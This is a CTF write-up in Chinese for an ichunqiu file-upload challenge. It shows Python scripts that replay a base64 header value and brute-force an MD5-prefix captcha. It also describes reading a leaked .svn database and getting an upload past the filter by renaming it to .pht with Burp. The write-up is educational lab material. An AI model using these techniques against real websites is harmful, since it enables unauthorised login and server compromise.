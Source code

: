 # upload

## Description

来来来，都是套路，贼简单。

## Solution

题目都是废话，而且这道题并不是很简单，涉及了好多项，包括信息泄露，加解密， 文件上传等多个知识点。首先我买打开网站只能看到一个页面如下信息：

```
Hi,CTFer!u should be a fast man:)
```

可以打开开发者工具，可以看到页面注释里面有一句代码注释：`<!-- Please post the ichunqiu what you find -->`。同时，如果打开网络 tab 可以看到回复的响应：

```
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Connection: keep-alive
Content-Encoding: gzip
Content-Length: 106
Content-Type: text/html
Date: Sun, 23 Sep 2018 14:09:59 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
flag: ZmxhZ19pc19oZXJlOiBNVEExTWpJeQ==
Pragma: no-cache
Server: nginx/1.10.2
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.19
```

可以看到响应头里面有一个 flag 字段，类似是一个 base64 字符串。可以将这个字符串使用 base64 解密出来，在根据上面的提示，可以将解密出来的值作为 `ichunqiu` 的值来进行 post 请求。具体利用，可以使用:

```python
import base64
import requests

def main():
  s = requests.session()
  url = "http://6752941d8cad473e9de7cb5410754a1d8437500183f7480e.game.ichunqiu.com/"
  r = s.get(url)
  key = r.headers["flag"]
  decode_key = base64.b64decode(key)
  arr = str(decode_key).split(':')
  key_val = base64.b64decode(arr[1])
  body = {"ichunqiu": key_val}
  r = s.post(url, data=body)
  print r.text


if __name__ == '__main__':
  main()
```

通过这个请求可以获得一个响应是 `path:xxx`，那么访问到 URL + path，跳转到 action.php?action=login，这是一个登录页面，访问 URL/path/.svn.wc.db 可以看到页面的提示是：

```
username is md5(HEL1OW10rDEvery0n3)
```

通过 md5 可以算得到用户名，登录页面需要用户名、密码以及验证码，根据页面提示：

[![iu0NA1.md.png](https://s1.ax1x.com/2018/09/23/iu0NA1.md.png)](https://imgchr.com/i/iu0NA1)

那么也可使用脚本来爆破验证码：

```python
import hashlib

def md5(s):
    return hashlib.md5(str(s).encode('utf-8')).hexdigest()
    
def main(s):
    for i in range(1, 99999999):
        if md5(i)[0:6] == str(s):
            print(i)
            exit()

if __name__ == '__main__':
    main('4c4efa')
```

通过这个脚本可以爆破出验证码，通过这个验证码以及之前的用户名，密码输入123456即可，登录成功会弹出一个 alert 提示框，会提示一个 php 文件的路径。

![iu05jg.png](https://s1.ax1x.com/2018/09/23/iu05jg.png)

访问这个 php 路径，可以看到这是一个上传的页面。上传一个图片，然后用 burp 拦截，把文件格式改成 pht 则可以拿到 flag。
